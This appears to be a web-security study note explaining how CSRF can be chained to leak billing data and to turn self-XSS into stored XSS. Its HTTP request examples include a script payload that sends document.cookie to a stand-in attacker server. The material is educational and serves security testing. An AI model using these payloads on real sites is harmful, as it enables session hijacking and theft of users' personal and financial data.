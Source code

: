 # Leak User Information by Using CSRF
CSRF can sometimes cause information leaks as a side effect. 
- Applications often send or disclose information according to user preferences. 
- If you can change these settings via CSRF, you can pave the way for sensitive information disclosures.
- For example, let’s say the example.com web application sends monthly billing emails to a user-designated email address. 
- These emails contain the users’ billing information, including street addresses, phone numbers, and 
credit card information. 
- The email address to which these billing emails are sent can be changed via the following request:
```HTTP
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
email=NEW_EMAIL&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```
An attacker could make a victim user send this request via CSRF to change the destination of their billing emails:
```HTTP
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
email=ATTACKER_EMAIL&csrf_token=
```
# Create Stored Self-XSS by Using CSRF
- Remember that self-XSS is a kind of XSS attack that requires the victim to input the XSS payload.
- These vulnerabilities are almost always considered a nonissue because they’re too difficult to exploit; doing so requires a lot of action from the victim’s part, and thus you’re unlikely to succeed
- However, when you combine CSRF with self-XSS, you can often turn the self-XSS into stored XSS.
- For example, let’s say that example.com’s financial subdomain, finance.example.com, gives users the ability to create nicknames for each of their linked bank accounts. 
- The account nickname field is vulnerable to self-XSS: there is no sanitization, validation, or escaping for user input on the field. 
- However, only the user can edit and see this field, so there is no way for an attacker to trigger the XSS directly.
- However, the endpoint used to change the account nicknames is vulnerable to CSRF. 
- The application doesn’t properly validate the existence of the CSRF token, so simply omitting the token parameter in the request will bypass CSRF protection. 
- For example, this request would fail, because it contains the wrong token:
```HTTP
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
&csrf_token=WRONG_TOKEN
```
- But this request, with no token at all, would succeed:
```HTTP
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```